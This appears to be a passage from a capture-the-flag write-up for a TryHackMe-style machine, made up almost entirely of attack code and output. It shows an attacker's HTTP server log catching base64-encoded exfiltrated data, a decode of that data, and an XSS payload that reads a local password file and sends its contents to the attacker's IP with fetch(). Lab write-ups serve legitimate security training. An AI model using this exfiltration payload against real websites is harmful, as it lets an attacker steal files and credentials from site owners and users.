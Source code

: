 ```bash
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.2.37.37 - - [27/Oct/2024 06:20:31] "GET /exfilscript.js HTTP/1.1" 200 -
10.2.37.37 - - [27/Oct/2024 06:20:33] code 404, message File not found
10.2.37.37 - - [27/Oct/2024 06:20:33] "GET /exfilscript/LAST/PCFET0NUWVBFIEhUTUwgUFVCTElDICItLy9JRVRGLy9EVEQgSFRNTCAyLjAvL0VOIj4KPGh0bWw+PGhlYWQ+Cjx0aXRsZT40MDMgRm9yYmlkZGVuPC90aXRsZT4KPC9oZWFkPjxib2R5Pgo8aDE+Rm9yYmlkZGVuPC9oMT4KPHA+WW91IGRvbid0IGhhdmUgcGVybWlzc2lvbiB0byBhY2Nlc3MgdGhpcyByZXNvdXJjZS48L3A+Cjxocj4KPGFkZHJlc3M+QXBhY2hlLzIuNC40MSAoVWJ1bnR1KSBTZXJ2ZXIgYXQgd2h5aGFja21lLnRobSBQb3J0IDgwPC9hZGRyZXNzPgo8L2JvZHk+PC9odG1sPgo=.jpg HTTP/1.1" 404 -
```

`echo 'PCFET0NUWVBFIEhUTUwgUFVCTElDICItLy9JRVRGLy9EVEQgSFRNTCAyLjAvL0VOIj4KPGh0bWw+PGhlYWQ+Cjx0aXRsZT40MDMgRm9yYmlkZGVuPC90aXRsZT4KPC9oZWFkPjxib2R5Pgo8aDE+Rm9yYmlkZGVuPC9oMT4KPHA+WW91IGRvbid0IGhhdmUgcGVybWlzc2lvbiB0byBhY2Nlc3MgdGhpcyByZXNvdXJjZS48L3A+Cjxocj4KPGFkZHJlc3M+QXBhY2hlLzIuNC40MSAoVWJ1bnR1KSBTZXJ2ZXIgYXQgd2h5aGFja21lLnRobSBQb3J0IDgwPC9hZGRyZXNzPgo8L2JvZHk+PC9odG1sPgo=' | base64 -d`

```bash
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>403 Forbidden</title>
</head><body>
<h1>Forbidden</h1>
<p>You don't have permission to access this resource.</p>
<hr>
<address>Apache/2.4.41 (Ubuntu) Server at whyhackme.thm Port 80</address>
</body></html>

```

`nano xssex.js`

```bash
var target_url = "http://127.0.0.1/dir/pass.txt";
var my_server = "http://10.2.37.37/data";
var xhr  = new XMLHttpRequest();
xhr.onreadystatechange = function() {
    if (xhr.readyState == XMLHttpRequest.DONE) {
        fetch(my_server + "?" + encodeURI(btoa(xhr.responseText)))
    }
}
xhr.open('GET', target_url, true);
xhr.send(null);
```
